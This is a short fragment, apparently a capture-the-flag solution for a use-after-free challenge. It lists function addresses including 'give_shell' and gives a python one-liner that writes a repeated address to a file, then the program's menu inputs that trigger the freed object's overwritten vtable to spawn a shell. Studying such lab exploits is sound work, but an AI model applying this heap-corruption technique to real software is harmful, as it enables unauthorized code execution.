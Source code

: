 vptr@0x401570
give_shell@0x40117a
introduce@0x4012d2

python -c "print '\x68\x15\x40\x00\x00\x00\x00\x00'*90" > in;./uaf 24 in
3
2
2
1

